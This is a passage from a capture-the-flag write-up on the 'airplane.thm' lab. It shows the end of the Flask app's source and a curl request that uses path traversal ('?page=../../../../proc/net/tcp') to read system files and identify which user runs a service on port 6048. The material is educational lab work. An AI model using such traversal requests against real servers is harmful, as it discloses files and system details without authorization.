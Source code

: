 ```python

            if os.path.getsize(page) == 0:
                resp.headers["Content-Length"]=str(len(resp.get_data()))

            return resp

        else:
            return "Page not found"

    else:
        return redirect('http://airplane.thm:8000/?page=index.html', code=302)


@app.route('/airplane')
def airplane():
    return render_template('airplane.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)                                                                                         
```

> The `/proc/self/cwd` is a symlink to the current working directory for the process.
{: .prompt-tip }

Checking the source code for the web application, it doesn't seem like there's anything interesting other than the file disclosure vulnerability. We're also not able to find any low-hanging fruit like the user's `SSH` key.


### Identifying The Service on Port 6048

Since there is another service running on port 6048 that we don't know anything about, we can leverage this file disclosure vulnerability to identify it.

By reading the `/proc/net/tcp` file, we can discover the service on port 6048 is running as the `hudson` user (uid = 1001).

```console
$ curl -s 'http://airplane.thm:8000/?page=../../../../proc/net/tcp'
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                               
...
   4: 00000000:17A0 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1001        0 19341 1 0000000000000000 100 0 0 10 0
...
```

> In the /proc/net/tcp file, the port is stored in hexadecimal format (0x17A0, which translates to 6048).
{: .prompt-tip }

Knowing that the same user runs the other service, we can likely read its command line as well.
